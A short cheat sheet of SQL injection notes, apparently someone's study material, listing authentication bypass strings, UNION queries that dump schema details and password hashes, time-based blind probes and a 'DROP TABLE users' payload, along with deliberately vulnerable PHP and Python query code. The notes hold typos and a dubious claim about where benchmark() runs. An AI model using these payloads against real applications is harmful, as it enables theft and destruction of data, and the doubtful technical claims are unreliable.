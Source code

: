 # SQLi

Can be used when improper input sanitization exsists

- User input is not correctly filtered for string literal or escape characters
- User input is not having the correct type.

---

Example of a SQL statement (not recommended methods!!!):
```php
$sql = "SELECT * FROM users WHERE id = $id"
```
```python
cmd = "update users set name = '%s' where id = '%s'" (name, id)
```

---

comment = 
```sql 
-- = comment
```

First attemt to try (show everything in the table):
```sql
'or '1'='1
```
or (% is wildcard):
```sql
%'or '1'='1
```
Check for True:
```sql
1 = 1
```
Check for False:
```sql
1 = 2
```
Get username for the table:
```sql
%' or 0 = 0 union select null, user() --
```
Database name:
```sql
%’ or 0 = 0 union select null, database() --
```
Database version:
```sql
%’ or 0 = 0 union select null, version() --
```
Table names and column names:
```sql
%' union select table_name, column_name from information_schema.columns where table_schema = '<DATABASE_NAME>' --
```
Table names:
```sql
%' and 1=0 union select null, table_name from information_schema
```
username and password hash from users table:
```sql
%' UNION SELECT user, password from users 
```

## Blind SQLi
Time:
Can use time to figure out what is going on:
```sql
benchmark(count,expr)
```
Banchmark do the expr as many time as the count size. Benchmark is performed on the client end not on the server end. Example:
```sql
benchmark(10,MD5('This is a test'))
```
Use the MD5:
```sql
SELECT MD5('Test_string')
```
Example; drop table:
```sql
a';DROP TABLE users; SELECT * FROM data WHERE 't' = 't
```


## SQLi with PHP

mysql_real_escape_string() can be circumvented with using no ' in the queries. The variables in PHP cannot have quotes before and after it, to get this to work.

unhex() can be used to convert characters
```php
unhex(23) = #
unhex(27) = '
unhex(28) = (
unhex(29) = )
unhex(2a) = *
```

One example on bypassing a password field in php:
```php
<?php
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "SELECT uid FROM users WHERE name = '$user' AND pass = MD5('$pass')";
?>
```
```sql
' OR 1 OR '' = '
```
Becomes:
```sql
SELECT uid from users WHERE name = '' OR 1 OR '' = '' AND pass = MD5('pass')
```


# Definition:
In-band SQLi
- Using the same channel to send a SLQi and recive the result
- Usualy Error based or Union based

Inferential SQLi (Blind)
- No result in browser
- Two types:
    - Boolean-based
    - Time-based

Out-of-band SQLi
- Features need to be enabled in the database
- Attacke cannot send and recive using the same channel.